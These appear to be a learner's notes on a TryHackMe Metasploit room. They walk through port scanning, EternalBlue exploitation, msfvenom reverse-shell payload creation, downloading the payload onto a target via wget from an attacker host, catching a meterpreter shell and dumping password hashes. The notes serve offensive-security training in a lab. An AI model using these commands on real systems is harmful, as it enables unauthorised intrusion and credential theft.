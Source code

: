 # Room
https://tryhackme.com/room/metasploitexploitation

# Task 1 - Intro
Intro

# Task 2 - Scanning
* port scanning with metasploit console
* launch the console
    * msfconsole
* search for port scan modules
    * search portscan
* use the module
    * use auxilirary/scanner/portscan/tcp
* view and set the options, run the exploit
    * show options
    * set rhosts [target_ip]
    * run
* from within metasploit console you can run commands directly, such as nmap
    * nmap -A -T4 [target_ip]
* useful modules
    * udp_sweep
    * smb_enumshares
    * smb_version
    * smb_login

# Task 3 - metasploit database
* the metasploit database can be used as a way to store information about the engagement and to have multiple shared workspaces when collaborating with others
* install then start postgresql
    * systemctl start postgresql
* initialize the metasploit database
    * msfdb init
* load the console and check the database status
    * msfconsole
    * db_status
* view current workspaces
    * workspace
* create a new workspace
    * workspace -a newworkspace
* switch to a different workspace
    * workspace newworkspace
* view options for the current workspace
    * workspace -h
* run tools within the context of the database so results are saved to it, example for nmap
    * db_nmap -A -T4 [target_ip]
* view results of your tools
    * hosts
    * services
* options available for the results
    * hosts -h
    * services -h
* more than one target, use hosts -R
* to scan specific services, services -S [service_name]

# Task 4 - vulnerability scanning
* metasploit allows vulnerability scanning, the more information you have discovered during the recon process will assist in the vuln checks
* to view detailed information about a module use the info command when you are in the module context

# Task 5 - exploitation
* exploit the vulnerable machine
* recon
    * nmap -A -T4 [target_ip]
* research
    * reviewed scan results, found this was an old Windows 7 machine
    * first thing to check for Windows 7 is eternalblue
* exploit
    * msfconsole
    * search blue
    * set rhosts [target_ip]
    * run
* post-exploit
    * the machine was vulnerable to eternalblue, metasploit was able to exploit it and provide a meterpreter shell
    * from meterpreter you can shell out to the OS using the shell command, from there you can search for the flag
    * to dump hashes you can use hashdump

# Task 6 - msfvenom
* msfvenom allows you to generate payloads from the accessible ones in metasploit framework
* creatable payload formats include
    * php
    * exe
    * dll
    * elf
* target systems include
    * apple
    * windows
    * android
    * linux
* list msfvenom payloads
    * msfvenom -l payloads
* list msfvenom output formats
    * msfvenom --list formats
* to encode a payload use -e
* a handler is a function within metasploit framework to catch your shell
* there are two types of handlers
    * normal payload that launches a normal reverse shell
    * meterpreter payload which launches a meterpreter shell
* payload creation basics
    * msfvenom -p windows/meterpreter/reverse_tcp LHOST=1.2.3.4 LPORT=1234 -f exe > rev_shell.exe
        * msfvenom -p windows/meterpreter/reverse_tcp - creates a meterpreter reverse tcp payload
        * LHOST - attacker IP
        * LPORT - attacker port to catch the shell via nc, msfconsole, or some other means
        * -f exe - output with format exe
        * > rev_shell.exe - redirect the output to a file called rev_shell.exe that is ready to stage on the victim
* challenge
    * on the target login using the supplied credentials
    * on the target elevate to root: sudo su
    * on the attacking machine create a meterpreter payload using the elf format
        * msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=1.2.3.4 LPORT=2222 -f elf > lb
    * on the attacking machine host the exploit
        * python -m http.server 9000
    * on the target download the host exploit using wget
        * wget http://1.2.3.4:9000/lb .
    * on the target set the exploit to be executable
        * chmod +x lb
    * on the attacking machine load msfconsole and start a meterpreter handler to catch the shell
        * msfconsole
        * use multi/handler
        * set payload linux/x86/meterpreter/reverse_tcp
        * set lhost eth0
        * set lport 2222
        * run
    * on the target execute the exploit
        * ./lb
    * on the attacking machine receive the shell
        * meterpreter shell was received
        * use the sysinfo command to get basic information
        * background the session to run through further post exploitation - background
    * in msfconsole list sessions using sessions
    * search for a linux related hash dump module
        * search hash platform:linux
    * enter the hashdump module and dump the hashes from your target
        * use post/linux/gather/hashdump
        * set session 1 (based on output from sessions command)
        * run
    * the post exploit hashdump will run and dump all user hashes

# Task 7 - summary
Summary